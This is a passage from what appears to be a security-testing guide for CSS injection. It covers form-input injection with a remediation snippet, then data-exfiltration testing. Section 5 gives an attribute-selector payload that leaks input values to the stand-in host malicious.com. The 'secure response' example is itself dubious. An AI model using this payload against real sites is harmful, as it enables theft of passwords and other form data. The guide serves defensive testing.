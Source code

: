 **Tip**: Save URL payloads and page rendering screenshots in a report.

### 4. Test Form Input Injection

**Objective**: Ensure form inputs do not inject CSS into the page.

**Steps**:
1. Locate form fields:
   - Identify fields like “custom style” or “theme” on the target page.
2. Inject a CSS payload:
   - Enter `body{font-size:50px}` into a form field and submit.
3. Check for injection:
   - Inspect the page for enlarged text.
   - Use Elements tab to confirm CSS application.

**Example Secure Response**:
```html
<!-- Encoded input prevents rendering -->
<style>body{font-size:<!-- user input: body{font-size:50px} -->}</style>
```
Normal font size.

**Example Vulnerable Response**:
```html
<!-- Unencoded input renders CSS -->
<style>body{font-size:50px}</style>
```
Text appears enlarged.

**Remediation**:
- Encode form outputs:
  ```php
  echo htmlspecialchars($userInput, ENT_QUOTES, 'UTF-8');
  ```
- Validate inputs server-side:
  ```javascript
  if (!/[{};]/.test(userInput)) {
    applyStyle(userInput);
  }
  ```

**Tip**: Save form submissions and page screenshots in a report.

### 5. Test for Data Exfiltration

**Objective**: Ensure CSS injection does not enable data theft (e.g., via attribute selectors).

**Steps**:
1. Inject a CSS payload for data exfiltration:
   ```bash
   http "http://example.com/page?css=input[value^='secret']{background:url(http://malicious.com/steal)}"
   ```
2. Check for exfiltration:
   - Monitor network requests in Network tab for calls to `malicious.com`.
   - Use Console to detect CSS application:
     ```javascript
     document.querySelectorAll('input').forEach(i => console.log(i.style.background));
     ```
3. Verify impact:
   - Check if sensitive input values (e.g., passwords) trigger requests.
